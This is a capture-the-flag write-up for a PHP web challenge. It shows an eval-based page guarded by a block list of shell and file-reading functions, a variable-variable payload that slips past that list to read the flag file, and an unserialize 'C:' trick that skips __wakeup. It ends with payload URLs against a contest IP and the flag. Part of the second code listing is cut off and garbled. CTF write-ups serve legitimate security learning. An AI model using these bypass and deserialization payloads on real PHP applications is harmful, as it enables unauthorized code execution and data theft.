# Write up

1. First u can see I banned a lot of functions and we can't do like this $aaa($bbb) dynamic call in php {} can Parse traversal too
Double $$ is a hint that means we must need to read f1ag_1s_h3re.php first so we make payload

```
http://34.136.219.163:32001/?rce=${banned}[2](${test})
```

```
<?php
highlight_file(__FILE__);
//try to read
error_reporting(0);
if (isset($_GET['rce'])) {
  if (!empty($_GET['rce'])){
    $printValue= strtolower($_GET['rce']);
    $banned = array("cat", "more" ,"readfile", "fopen", "file_get_contents", "file", "SplFileObject" );
    $special_block= "test";
    $$special_block= "f1ag_1s_h3re.php";
    foreach ($banned as $value) {
      if (strpos($printValue, $value) || preg_match('/system|exec|bin2hex|assert|passthru|shell_exec|escapeshellcmd| escapeshellarg|pcntl_exec|usort|popen|flag|special_block|require|scandir|include|hex2bin|getallheaders|strrev|getallheaders|strrev|\$[a-zA-Z]|[#!%^&*_+=\-,\.:`|<>?~\\\\]/i', $printValue)) {
        $printValue="";
        echo "<script>alert('Bad character/word ditected!');</script>";
        break;
      }
    }
  eval($printValue . ";");
  } 
}
?> check()<2){ $this->getflag(); }else{ echo 'check failed'; } } public function __wakeup(){ $this->check(); } } unserialize($_GET['mocs']);

```


2. to read the code carefully we know that we need to call get flag() only once so we must bypass **__wakeup()**
https://bugs.php.net/bug.php?id=81151

```
var_dump(unserialize('C:1:"E":0:{}'));

Expected result:
----------------
For `class E` don't implements Serializable, maybe unserialize should return an Error.

Actual result:
--------------
Warning: Class E has no unserializer in /in/YAje0 on line 17
object(E)#1 (0) {
}
destruct

/*
In my understand, "C:" means a class implements Serializable, and it don't suport  __wakeup. At here, class E doesn't implements Serializable, and __wakeup ineffective, __destruct works. Should it be? i don't know.

*/

```

3. the final payload
```
http://34.136.219.163:32001/f1ag_1s_h3re.php?mocs=C:12:%22double_check%22:0:{}%27

```

## flag
MOCSCTF{Oh_You_3re_A_php_M4ster}